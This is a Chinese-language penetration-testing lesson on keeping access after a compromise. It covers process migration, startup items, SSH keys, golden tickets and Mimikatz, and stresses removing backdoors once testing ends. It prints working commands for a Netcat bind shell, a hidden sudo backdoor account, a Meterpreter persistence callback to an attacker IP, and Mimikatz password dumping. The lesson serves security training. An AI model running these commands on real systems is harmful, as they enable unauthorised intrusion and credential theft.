






# 082：持久化维持技术 🔐

在本节课中，我们将要学习渗透测试中的一个核心概念——持久化维持技术。其核心目标是，在成功获得初步访问权限或提升权限后，避免重复进行复杂的攻击过程，而是通过植入“后门”来维持对目标系统的长期、隐蔽访问。

上一节我们讨论了权限提升，本节中我们来看看如何将这种访问权限固定下来。

## 后门的概念与重要性

后门是一种绕过正常认证流程、秘密访问计算机系统的方法。对于渗透测试者而言，植入后门至关重要，因为它能确保我们无需重复执行复杂的漏洞利用过程即可重新访问目标系统。

然而，**道德黑客与恶意黑客的一个主要区别在于**，测试完成后必须确保移除所有后门。客户甚至可能将植入后门视为超出渗透测试范围的行为，原因有二：一是担心后门未被彻底清除，二是在测试结束前，后门可能被其他恶意攻击者利用。

从方法论上看，我们现在正离开“漏洞利用”阶段，进入“维持访问”和“隐藏踪迹”阶段。

## 持久化维持技术概览

如果你通过浏览器漏洞获得了一个反向Shell，而受害者关闭了浏览器，连接就会丢失。那么，有哪些技术可以维持访问呢？即使你利用了一个更持久的漏洞，如果计算机重启了，又该如何维持访问？

以下是几种关键的持久化技术：

### 1. 进程迁移

Windows系统中的`explorer.exe`（Windows资源管理器）是一个持久化进程，它提供了图形用户界面，很少被终止。我们可以利用像Meterpreter这样的工具，将Shell从脆弱的被利用进程（如浏览器）迁移到这个更稳定的进程中。

**代码示例：Meterpreter迁移命令**
```
meterpreter > migrate <PID_of_explorer.exe>
```

然而，迁移到`explorer.exe`的会话在系统重启后无法存活。要克服这个问题，就需要安装后门。

### 2. 利用系统启动项

一个更持久的方法是在目标系统启动时自动运行一个进程。这个进程会静默运行并回连到攻击者，重新建立连接。

*   **在Linux上**，可以通过`/etc/rc.local`或cron任务（如`@reboot`）实现。
*   **在Windows上**，可以通过修改注册表启动项实现。

### 3. Netcat 后门

Netcat是一个网络工具，可用于创建简单的后门。如果目标系统已安装Netcat，可以设置一个监听器，在连接时提供Shell。

**命令示例：**
```
# 在目标机器上（监听）：
nc -lvp 4444 -e /bin/sh

# 在攻击机器上（连接）：
nc <目标IP> 4444
```

### 4. SSH 后门

如果能在目标Linux系统上运行SSH服务，获取用户密码或添加SSH公钥到`authorized_keys`文件，就可以通过SSH实现稳定、加密的后门访问。

**核心步骤：**
1.  获取目标用户的密码或私钥。
2.  确保SSH服务（`sshd`）在运行。
3.  如果防火墙限制，可利用已获得的权限将SSH服务改到开放端口。
4.  使用`ssh user@target_ip` 连接。



### 5. 创建隐藏用户账户



在获得root权限后，可以直接在系统上创建新的用户账户作为后门。



**Linux示例命令：**
```bash
# 添加用户并设置密码
useradd -m -s /bin/bash backdooruser
echo “backdooruser:password” | chpasswd
# 或将用户加入sudo组
usermod -aG sudo backdooruser
```

### 6. 利用Meterpreter的持久化模块



Meterpreter内置了强大的持久化脚本，可以自动配置在系统启动或用户登录时运行。



**命令示例：**
```
meterpreter > run persistence -h # 查看帮助
meterpreter > run persistence -U -i 60 -p 443 -r <攻击者IP>
# -U: 用户登录时启动
# -i: 回连间隔（秒）
# -p: 监听端口
# -r: 攻击者IP
```

### 7. 票据传递与黄金票据

在Windows域环境中，Kerberos协议用于身份验证。攻击者如果获取了域控制器的密钥（如KRBTGT账户的哈希），就可以伪造被称为“黄金票据”的票证授予票证（TGT）。拥有黄金票据，攻击者可以在很长一段时间内（如数年）访问域内的任何服务。

**核心概念：**
*   **黄金票据攻击公式**：`伪造的TGT = 加密(KRBTGT密钥， 票据数据)`
*   这需要先获得域管理员级别的权限。

### 8. 利用Mimikatz提取凭证

Mimikatz是一款能够从Windows内存中提取明文密码、哈希、PIN码和Kerberos票据的工具。提取的凭证（如NTLM哈希）可用于横向移动或创建后门账户。

**典型用法：**
```
meterpreter > load mimikatz
meterpreter > mimikatz_command -f sekurlsa::logonPasswords full
```

## 总结与注意事项

本节课中我们一起学习了多种维持访问权限的技术，从简单的进程迁移、Netcat后门，到复杂的SSH密钥植入、Meterpreter持久化模块、以及域环境下的黄金票据攻击。

**关键要点总结：**
1.  **目的**：持久化旨在将一次性的攻击成果转化为长期、隐蔽的访问通道。
2.  **核心方法**：包括植入启动项、创建后门账户、利用合法服务（如SSH）、以及窃取和伪造身份凭证。
3.  **道德约束**：**必须**在渗透测试开始前与客户明确约定后门的使用和清除计划，并严格遵守。测试结束后，务必彻底清除所有后门。
4.  **技术选择**：选择哪种技术取决于目标系统环境（Windows/Linux， 是否在域中）、已获得的权限级别以及对隐蔽性的要求。



持久化是攻击链中承上启下的关键一环，它确保了前期努力的成果不会丢失。接下来，我们将探讨如何在已攻陷的系统中隐藏数据和活动痕迹。